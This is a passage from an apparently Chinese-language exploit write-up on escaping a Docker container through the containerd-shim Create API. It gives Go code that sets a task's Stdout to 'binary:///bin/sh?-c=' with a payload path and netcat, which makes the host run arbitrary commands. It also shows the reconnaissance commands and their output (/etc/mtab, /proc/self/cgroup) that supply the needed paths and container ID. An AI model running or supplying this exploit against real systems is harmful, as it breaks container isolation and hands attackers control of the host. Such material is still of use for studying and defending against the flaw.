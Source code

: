 利用 containerd-shim Create API， 相当于执行 runc create , 读取 config.json 的配置，创建一个新容器。

```
rpc Create(CreateTaskRequest) returns (CreateTaskResponse);

```

**CreateTaskRequest** 的 **stdout 参数**，支持各种协议：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228173407-d50db574-48ef-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228173407-d50db574-48ef-1.png)

可以通过构造 stdout 执行 host 上的二进制程序：

```
r, err := shimClient.Create(ctx, &shimapi.CreateTaskRequest{
        ID: docker_id,
        Bundle: "/run/containerd/io.containerd.runtime.v1.linux/moby/"+docker_id+"/config.json",
        Runtime : "io.containerd.runtime.v1.linux",
        Stdin:  "anything",
        Stdout: "binary:///bin/sh?-c="+payload_path+"nc",
        Stderr: "anything",
        Terminal : false,
        Checkpoint : "anything",
    })


```

所以我们在调用 Create API 前需要获取以下两个信息：

a、获取 host 上 docker 的存储路径

```
root@osboxes:/# head -n 1 /etc/mtab
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/LDRBK2BJC6VNVJIT3YWTX6KVVP:/var/lib/docker/overlay2/l/UZ4MNERQAY27L5SQHQF3QQ5LIQ:/var/lib/docker/overlay2/l/OMSEU276YHCMU7VZ77HDXMGHRL:/var/lib/docker/overlay2/l/SE23IRB2JDCIVNAZ7HCAVRXYMF:/var/lib/docker/overlay2/l/U57I52XHIDYPI7XUW6YYFRPQVE,upperdir=/var/lib/docker/overlay2/48f9caf0a731807f71c7277e8dfaeef58adb7c8f9b6180facdb3868bf1944a92/diff,workdir=/var/lib/docker/overlay2/48f9caf0a731807f71c7277e8dfaeef58adb7c8f9b6180facdb3868bf1944a92/work 0 0

```

b、获取 docker id

```
root@osboxes:/# cat /proc/self/cgroup
12:perf_event:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
11:net_cls,net_prio:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
10:devices:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
9:pids:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
8:cpuset:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
7:cpu,cpuacct:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
6:blkio:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
5:memory:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
4:hugetlb:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
3:rdma:/
2:freezer:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
1:name=systemd:/docker/59ff2a350d6128188306ed648372570989866a75a4c1c56afd6f675a39d28f77
0::/system.slice/containerd.service

```
